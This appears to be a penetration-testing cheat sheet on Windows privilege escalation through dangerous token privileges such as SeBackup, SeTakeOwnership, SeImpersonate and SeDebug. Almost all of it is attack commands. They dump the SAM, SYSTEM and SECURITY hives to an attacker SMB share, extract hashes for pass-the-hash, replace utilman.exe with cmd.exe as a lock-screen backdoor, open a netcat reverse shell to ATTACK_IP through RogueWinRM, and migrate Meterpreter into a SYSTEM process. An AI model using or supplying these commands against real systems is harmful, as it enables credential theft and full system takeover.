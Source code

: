 # Privilege check command: whoami /priv

# Examples of dangerous privileges:

## SeBackup/SeRestore

#### 1: Backup SAM and SYSTEM hashes

#### req save hklm\system c:\users\user\system.hive

#### req save hklm\sam c:\users\user\sam.hive

#### 2: Create SMB Server on attacking machine

#### 1: mkdir share

#### 2: python3 impacket-smbserver.py -smb2support -username USER -password PASSWORD public share

#### 3: Copy backups to share folder

#### copy c:\users\user\sam.hive \\ATTACK_IP\public\

#### copy c:\users\user\system.hive \\ATTACK_IP\public\

#### 4: Retrieve hashes

#### python3 impacket-secretsdump.py -sam sam.hive -system system.hive LOCAL

#### 5: Pass-The-Hash Attack (PtH)

#### python3 impacket-psexec.py -hashes HASH administrator@TARGET_IP

#### TIP: We can also use evil-winrm for PtH attacks.

## Alternate Method to transfer the Hives: reg.py  remotely on Linux

 - python smbserver.py -smb2support share /tmp

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SAM' -o '\\attacker ip\share'

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SYSTEM' -o '\\attacker ip\share'

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SECURITY' -o '\\attacker ip\share'

## Alternate Method: SeBackupPrivilegeUtils https://github.com/giuliano108/SeBackupPrivilege

### Usage:

 - Import-Module .\SeBackupPrivilegeUtils.dll

 - Import-Module .\SeBackupPrivilegeCmdLets.dll

 - Set-SeBackupPrivilege

 - Get-SeBackupPrivilege



## SeTakeOwnership

#### Essentially, we can take ownership of a service running as SYSTEM and elevate privileges.

### Example: Utilman.exe

#### 1: takeown /f c:\windows\system32\utilman.exe

#### 2: icacls c:\windows\system32\utilman.exe /grant USER:F

#### 3: copy cmd.exe utilman.exe

#### 4: Trigger uitlman : Lock screen, click ease of access

## SeImpersonate/SeAssignPrimaryToken

### A lot of potato exploits work with these privileges, so in our example we will talk about RoguePotato.

#### RogueWinRM.exe exploit

#### 1: Start listener

#### c:\path\to\roguewinrm\roguewinrm.exe -p "C:\path\to\nc64.exe" -a "-e cmd.exe ATTACK_IP PORT"

## Tool: PrintSpoofer

## Link: https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0

## SeDebug Privilege

### Tools: Meterpreter, https://github.com/decoder-it/psgetsystem

### Steps:

#### 1) Get-Process winlogon (Check for a specific SYSTEM level process running on the machine)

#### 2) Download and execute Meterpreter on target machine to connect to us

#### 3) ps (Check for processes running as SYSTEM. Example: winlogon.exe)

#### 4) migrate PID (Take ownership of the elevated process)

#### 5) VOILA!

## TIP: If the SeDebug Privilege is disabled, we can enable it with psgetsystem powershell script (Link attached at the top of this attack's explanation)
